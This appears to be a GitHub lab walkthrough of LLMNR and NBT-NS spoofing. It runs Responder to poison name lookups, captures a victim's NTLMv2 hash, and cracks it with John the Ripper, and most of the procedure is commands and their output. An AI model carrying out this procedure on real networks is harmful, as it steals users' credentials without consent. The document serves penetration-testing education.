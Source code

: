## Attack
LLMNR and NBT-NS Spoofing

## Procedure
- Start Capturing the traffic on the interface you are connected with the filter ```ip.addr == <Address of the victim>```.   
- Start responder on interface with sudo privileges.
```bash
f4lc0n@klaw /g/Responder> sudo ./Responder.py -I eno1 -wrf
```
 - The output will be in a similar way.


```bash
.----.-----.-----.-----.-----.-----.--|  |.-----.----.
|   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
|__| |_____|_____|   __|_____|__|__|_____||_____|__|
|__|

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eno1]
Responder IP               [192.168.43.178]
Challenge set              [1122334455667788]

[+] Listening for events...
```

- Now let us wait till the victim starts accessing an inaccessible server.![](https://github.com/bj1408/LLMNR-Attack/blob/master/images/VictimSS1.png)

- Now we can see that Responder captures this event.
```bash
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.178
[SMB] NTLMv2-SSP Username : win7\f4lc0n
[SMB] NTLMv2-SSP Hash     : f4lc0n::win7:1122334455667788:C70EFFD5915B4121E403760CC5C484CB:0101000000000000A89E44AB2F15D5013D9048CA1088913D0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000100000000200000DA67F4AC3DE52B034E39D510C5B9053CDF0220D4DDD1DA9DC814C2571E50F29F0A0010000000000000000000000000000000000009001C0063006900660073002F006600690065006C00730068006100720065000000000000000000
[SMB] Requested Share     : \\FIELSHARE\IPC$
[*] Skipping previously captured hash for win7\f4lc0n
[SMB] Requested Share     : \\FIELSHARE\IPC$
``` 
- Responder successfully stole the password NTLM hash of the victim machine.
- Now use john for cracking the hash.
```bash
f4lc0n@klaw /g/Responder> john hash.txt
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (f4lc0n)
1g 0:00:00:00 DONE 2/3 (2019-05-28 14:20) 2.439g/s 72214p/s 72214c/s 72214C/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
```
- So the password was successfullly stolen :grin:


PS: The network capture for this attack is [here](./Captures/NBNS.pcapng).
